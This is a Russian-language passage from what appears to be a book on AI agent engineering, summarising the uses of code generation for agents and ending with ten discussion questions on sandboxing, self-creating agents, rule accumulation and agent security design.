Ключевой вывод раздела об инженерной Harness (обвязка) заключается в следующем: высокая зрелость Coding Agent обусловлена не исключительной мощью моделей генерации кода, а тем, что инфраструктура, накопленная программной инженерией за десятилетия — наборы тестов, системы типизации, контроль версий — естественным образом образует мощную Harness. Этот вывод стоит распространить и на другие сценарии использования Agent.

Во второй части была продемонстрирована широкая ценность генерации кода за пределами программирования в шести измерениях:

- **Инструмент мышления**: Использование символьных вычислений и решения ограничений для восполнения недостатков вероятностного мышления.
- **Ограничения бизнес-правил**: Выражение бизнес-правил недвусмысленным способом, обеспечивающее детерминированную линию защиты в сценариях с необратимыми операциями — ценность таких гарантий безопасности намного превышает затраты на реализацию.
- **Мультимедийная генерация**: Создание презентаций, видео и другого мультимодального контента через механизм «Предлагающий — Рецензент».
- **Системный адаптер**: Полная автоматизация парсинга логов и диагностики проблем за счет автоматического следования за эволюцией форматов.
- **Generative UI (генеративный пользовательский интерфейс)**: Динамическое создание форм, визуальных графиков и даже полноценных настраиваемых приложений, выход за рамки чисто текстовых ограничений.
- **Самовоспроизведение Agent**: Использование кода для исправления и создания себе подобных, реализующее концепцию агентов, создающих других агентов.

Ценность кода для Agent заключается в том, что он является одновременно и средством выполнения задач, и механизмом накопления знаний, создания инструментов и самооптимизации — истинной «мета-способностью».

На этом мы завершили обсуждение двух из трех «китов» — контекста и инструментов, где генерация кода выступает как самый универсальный инструмент. Однако остается без ответа критический вопрос: как научно измерить эффективность этих проектных решений? Со следующей главы мы переходим к третьему «киту» — модели, и начнем с оценки. В следующей главе будет выстроена полная методология оценки: от создания среды тестирования и проектирования датасетов до Reward Model (модель вознаграждения) и выбора модели на основе оценки, что обеспечит средства количественной проверки для всех технических решений, обсуждавшихся в предыдущих главах.

## Вопросы для размышления

1. ★★ Code Generation (генерация кода) считается «мета-способностью» Agent (агента). Однако выполнение кода привносит риски безопасности — сгенерированный код может содержать уязвимости, бесконечные циклы или приводить к исчерпанию ресурсов. Изоляция в Sandbox (песочница) решает часть проблем, но также ограничивает возможности кода (например, отсутствие доступа к сети или файловой системе). Как найти оптимальный баланс между безопасностью и функциональностью?

2. ★★★ Самозапуск агента — Agent, способный создавать других Agent — реализует «саморазмножение интеллекта». Однако каждый такой цикл может вносить новые отклонения или ошибки. Будут ли эти ошибки накапливаться от поколения к поколению? Как предотвратить деградацию при самозапуске агентов?

3. ★★ Coding Agent (агент для написания кода) при анализе логов может автоматически подстраиваться под эволюцию их форматов. Но если изменение формата является багом, а не ожидаемым изменением, адаптивность агента, напротив, скроет проблему. Как Agent должен отличать «изменения, к которым нужно адаптироваться» от «аномалий, о которых нужно сообщить»?

4. ★★ В этой главе при генерации PPT, редактировании видео и визуализации логов неоднократно используется механизм «предлагающий — проверяющий» (Proposer-Reviewer). Если эстетические предпочтения Reviewer не совпадают с предпочтениями целевого пользователя (например, Reviewer считает плотность информации разумной, а пользователю она кажется избыточной), цикл обратной связи сойдется к неверному локальному оптимуму. Как включить предпочтения пользователя в цикл обратной связи Reviewer?

5. ★★ В данной главе показаны различные способы, которыми Coding Agent сохраняет опыт, полученный в процессе выполнения и отладки, обратно в кодовую базу: запись в файлы Knowledge Base (база знаний), обновление архитектурной документации, поддержка файлов с инструкциями проекта, закрепление последовательностей операций в виде кода. Если в дальнейшем превращать этот опыт в правила внутри System Prompt (системный промпт), набор правил со временем будет постоянно раздуваться. Как проводить «Garbage Collection» (сборка мусора) для накопленных правил — выявлять и очищать избыточные или устаревшие пункты? В чем сходства и различия этого механизма накопления опыта самим агентом и автоматической оптимизации системных промптов, которая будет обсуждаться в восьмой главе?

6. ★ «Команды, дружелюбные к удаленной работе, зачастую также дружелюбны к AI Agent». Насколько далека ваша команда или организация в плане документирования знаний от состояния «AI-ready»? Что является главным препятствием?

7. ★★★ Simon Willison выделил «три роковых фактора» для Agent (доступ к частным данным, воздействие ненадежного контента, наличие возможностей для внешней коммуникации). В этой главе к ним добавлен четвертый — Persistence Memory (персистентная память). Как бы вы спроектировали стратегию безопасности в производственной среде, где необходимо одновременно работать со всеми четырьмя факторами?

8. ★★ Режим Artifact позволяет сгенерированному агентом SQL-коду или фронтенд-коду выполняться напрямую в браузере пользователя или в базе данных. Однако сгенерированный SQL может выполнять деструктивные операции, а HTML — содержать уязвимости. Как обеспечить безопасность системы?

9. ★★ Кодирование бизнес-правил в виде проверок внутри инструментов на основе истинных данных из базы и использование дизайна параметров для направления модели на сверку условий политики перед вызовом — это, по сути, использование структуры кода для ограничения поведения Agent. В чем преимущества и ограничения такой модели «код как правило» по сравнению с правилами на Natural Language (естественный язык)?

10. ★★ Режим Artifact позволяет Agent генерировать SQL или код для визуализации, который исполняется фронтендом напрямую, минуя обработку больших объемов данных самой LLM. В чем преимущества и недостатки такой модели разделения труда («Agent генерирует код, система исполняет код») по сравнению с традиционной моделью («Agent напрямую выдает ответ»)?